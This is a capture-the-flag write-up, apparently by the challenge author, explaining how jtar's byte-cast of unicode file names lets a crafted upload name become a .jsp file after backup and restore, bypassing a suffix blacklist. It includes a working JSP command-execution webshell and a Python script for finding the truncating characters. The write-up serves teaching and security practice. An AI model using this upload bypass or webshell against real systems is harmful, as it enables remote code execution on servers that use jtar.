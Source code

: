 # d3jtar-WP-EN

In this challenge, an insecure jsp parsing is configured under the `view` route of the website file backup system. Obviously, RCE can be achieved as long as the jsp file is successfully uploaded. However, the backend performs a relatively strict check on the name of the uploaded file. In my expectation, players cannot bypass the `secureUpload` check to upload the jsp file by other means.

Then, combined with the title of this challenge, we can know that the key to solving the challenge lies in the `jtar` packaging library used by the tool class `Backup`. When using jtar's `TarOutputStream` to package files, it will force the unicode in the file name to be converted into ascii code, resulting in character truncation. Using this, we can upload files with specific unicode characters in the suffix to the target machine, bypass the suffix blacklist check, and use the backup and restore function to convert the uploaded files into files with jsp suffix and put them back into the jsp parseable directory, and finally get the flag by RCE.

EXP:

filename：payload.陪 sp --> payload.jsp

```java
<%@ page import="java.io.*" %>
<%
    String cmd = "printenv";
    String output = "";

    try {
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String line;
        while ((line = reader.readLine()) != null) {
            output += line + "<br>";
        }
    } catch (Exception e) {
        output = "Error executing command: " + e.getMessage();
    }
%>

<html>
<head><title>Command Output</title></head>
<body>
<h2>Executed Command: <code><%= cmd %></code></h2>
<pre><%= output %></pre>
</body>
</html>
```

The specific principle can be found in the `getNameBytes` method of `TarHeader` in the jtar source code as shown below. Using `(byte)` to force conversion of unicode file names will cause character truncation, and the file name will change after packaging.（[https://github.com/kamranzafar/jtar](https://github.com/kamranzafar/jtar)）

![](static/UG5wbYnnGocOPJxyKrjcHXGAnsf.png)

The unicode characters used to solve the challenge can be obtained by referring to the following script. As long as they can be converted into normal suffixes' ASCII characters, for example, `payload.멪ⅳば` has the same effect.

```python
import unicodedata

def reverse_search(byte_value):
    low_byte = byte_value & 0xFF
    candidates = []

    for high in range(0x00, 0xFF + 1):
        code_point = (high << 8) | low_byte
        try:
            char = chr(code_point)
            name = unicodedata.name(char)
            candidates.append((f"U+{code_point:04X}", char, name))
        except ValueError:
            continue
    return candidates

ascii_character = "j"  # "s","p"
byte_val = ord(ascii_character)
print(f"Possible original characters ({byte_val} → 0x{byte_val & 0xFF:02X}）:")
results = reverse_search(byte_val)
for cp, char, name in results:
    print(f"{cp}: {char} - {name}")
```

In addition, if the players pay attention, there is a PR from 2023 in jtar's github project (at the top), which is a modification of Chinese encoding errors (but has not been merged). It can serve as a potential hint to remind players to pay attention to jtar's encoding issues.😉

